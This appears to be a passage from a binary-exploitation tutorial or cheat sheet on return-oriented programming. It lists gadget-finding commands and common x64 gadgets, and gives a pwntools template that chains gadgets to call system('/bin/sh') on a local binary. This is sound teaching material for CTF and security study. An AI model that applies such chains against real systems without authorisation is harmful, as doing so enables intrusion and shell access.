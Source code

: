 ```python
```

## 🔗 Return-Oriented Programming (ROP)

### What is ROP?

Use existing code "gadgets" (instruction sequences ending in `ret`) to execute arbitrary code without injecting shellcode.

### Finding ROP Gadgets

```bash
# Using ROPgadget
ROPgadget --binary ./binary

# Specific gadgets
ROPgadget --binary ./binary --only "pop|ret"

# Using ropper
ropper --file ./binary --search "pop rdi"

# Using pwntools
from pwn import *
elf = ELF('./binary')
rop = ROP(elf)
print(rop.dump())
```

### Common x64 Gadgets

```assembly
pop rdi; ret     # First argument
pop rsi; ret     # Second argument  
pop rdx; ret     # Third argument
pop rax; ret     # Syscall number
syscall; ret     # Make syscall
```

### Basic ROP Chain

```python
from pwn import *

elf = ELF('./binary')
rop = ROP(elf)

# Build ROP chain
payload = b'A' * offset

# Call system("/bin/sh")
pop_rdi = 0x4011d3        # pop rdi; ret
bin_sh = 0x402000         # address of "/bin/sh"
system_addr = 0x401040    # address of system()

payload += p64(pop_rdi)
payload += p64(bin_sh)
payload += p64(system_addr)

p = process('./binary')
p.sendline(payload)
p.interactive()
```
